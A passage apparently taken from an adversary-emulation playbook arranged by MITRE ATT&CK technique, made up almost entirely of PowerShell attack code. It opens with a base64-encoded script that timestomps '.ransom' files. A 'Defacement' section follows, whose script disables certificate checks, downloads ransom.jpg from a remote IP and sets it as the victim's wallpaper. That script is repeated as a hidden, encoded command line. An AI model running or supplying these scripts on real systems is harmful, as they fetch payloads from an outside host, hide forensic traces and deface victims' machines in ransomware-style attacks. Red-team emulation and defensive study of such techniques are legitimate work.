ABvAGMAcwBcACoALgByAGEAbgBzAG8AbQAiACAALQBFAHIAcgBvAHIAQQBjAHQAaQBvAG4AIABTAGkAbABlAG4AdABsAHkAQwBvAG4AdABpAG4AdQBlADsADQAKAGkAZgAgACgAJAByAGEAbgBzAG8AbQBGAGkAbABlAHMAKQAgAHsADQAKACAAIAAgACAAJAByAGEAbgBzAG8AbQBGAGkAbABlAHMAIAB8ACAARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUAYwB0ACAAewANAAoAIAAgACAAIAAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBJAE8ALgBGAGkAbABlAF0AOgA6AFMAZQB0AEMAcgBlAGEAdABpAG8AbgBUAGkAbQBlACgAJABfAC4ARgB1AGwAbABOAGEAbQBlACwAIAAkAGYAYQBrAGUARABhAHQAZQApADsADQAKACAAIAAgACAAIAAgACAAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4ARgBpAGwAZQBdADoAOgBTAGUAdABMAGEAcwB0AFcAcgBpAHQAZQBUAGkAbQBlACgAJABfAC4ARgB1AGwAbABOAGEAbQBlACwAIAAkAGYAYQBrAGUARABhAHQAZQApADsADQAKACAAIAAgACAAIAAgACAAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4ARgBpAGwAZQBdADoAOgBTAGUAdABMAGEAcwB0AEEAYwBjAGUAcwBzAFQAaQBtAGUAKAAkAF8ALgBGAHUAbABsAE4AYQBtAGUALAAgACQAZgBhAGsAZQBEAGEAdABlACkAOwANAAoAIAAgACAAIAB9ADsADQAKACAAIAAgACAAVwByAGkAdABlAC0ASABvAHMAdAAgACIAWwArAF0AIABUAGkAbQBlAHMAdABvAG0AcABpAG4AZwAgAGMAbwBtAHAAbABlAHQAZQAgAGYAbwByACAAYQBsAGwAIAAuAHIAYQBuAHMAbwBtACAAZgBpAGwAZQBzAC4AIgA7AA0ACgB9ACAAZQBsAHMAZQAgAHsADQAKACAAIAAgACAAVwByAGkAdABlAC0ASABvAHMAdAAgACIAWwAtAF0AIABOAG8AIAAuAHIAYQBuAHMAbwBtACAAZgBpAGwAZQBzACAAZgBvAHUAbgBkACAAdABvACAAdABpAG0AZQBzAHQAbwBtAHAALgAiADsADQAKAH0A
```





## 17. Impact {#3657b0eb61a480269494c99869f1ab0a}


### **Defacement: Internal Defacement (T1491.001)** {#3637b0eb61a480e68537f4eb9f5f8dfd}





```sql
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};
$wc = New-Object System.Net.WebClient;
$wc.DownloadFile("https://192.168.253.128:443/ransom.jpg", "C:\Users\Public\ransom.jpg");
$SetWallPaperCode = @'
using System.Runtime.InteropServices;
public class Wallpaper {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int SystemParametersInfo(int uAction, int uParam, string lpvParam, int fuWinIni);
}
'@
Add-Type -TypeDefinition $SetWallPaperCode;
[Wallpaper]::SystemParametersInfo(20, 0, "C:\Users\Public\ransom.jpg", 3);
```


```sql
powershell.exe -nop -w hidden -enc WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAAgAD0AIABbAE4AZQB0AC4AUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbABUAHkAcABlAF0AOgA6AFQAbABzADEAMgA7AA0ACgBbAE4AZQB0AC4AUwBlAHIAdgBpAGMAZQBQAG8AaQBuAHQATQBhAG4AYQBnAGUAcgBdADoAOgBTAGUAcgB2AGUAcgBDAGUAcgB0AGkAZgBpAGMAYQB0AGUAVgBhAGwAaQBkAGEAdABpAG8AbgBDAGEAbABsAGIAYQBjAGsAIAA9ACAAewAkAHQAcgB1AGUAfQA7AA0ACgAkAHcAYwAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ADsADQAKACQAdwBjAC4ARABvAHcAbgBsAG8AYQBkAEYAaQBsAGUAKAAiAGgAdAB0AHAAcwA6AC8ALwAxADkAMgAuADEANgA4AC4AMgA1ADMALgAxADIAOAA6ADQANAAzAC8AcgBhAG4AcwBvAG0ALgBqAHAAZwAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwAcgBhAG4AcwBvAG0ALgBqAHAAZwAiACkAOwANAAoAJABTAGUAdABXAGEAbABsAFAAYQBwAGUAcgBDAG8AZABlACAAPQAgAEAAJwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwANAAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABXAGEAbABsAHAAYQBwAGUAcgAgAHsADQAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAdQBzAGUAcgAzADIALgBkAGwAbAAiACwAIABDAGgAYQByAFMAZQB0AD0AQwBoAGEAcgBTAGUAdAAuAEEAdQB0AG8AKQBdAA0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGkAbgB0ACAAUwB5AHMAdABlAG0AUABhAHIAYQBtAGUAdABlAHIAcwBJAG4AZgBvACgAaQBuAHQAIAB1AEEAYwB0AGkAbwBuACwAIABpAG4AdAAgAHUAUABhAHIAYQBtACwAIABzAHQAcgBpAG4AZwAgAGwAcAB2AFAAYQByAGEAbQAsACAAaQBuAHQAIABmAHUAVwBpAG4ASQBuAGkAKQA7AA0ACgB9AA0ACgAnAEAADQAKAEEAZABkAC0AVAB5AHAAZQAgAC0AVAB5AHAAZQBEAGUAZgBpAG4AaQB0AGkAbwBuACAAJABTAGUAdABXAGEAbABsAFAAYQBwAGUAcgBDAG8AZABlADsADQAKAFsAVwBhAGwAbABwAGEAcABlAHIAXQA6ADoAUwB5AHMAdABlAG0AUABhAHIAYQBtAGUAdABlAHIAcwBJAG4AZgBvACgAMgAwACwAIAAwACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwAcgBhAG4AcwBvAG0ALgBqAHAAZwAiACwAIAAzACkAOwA=
```

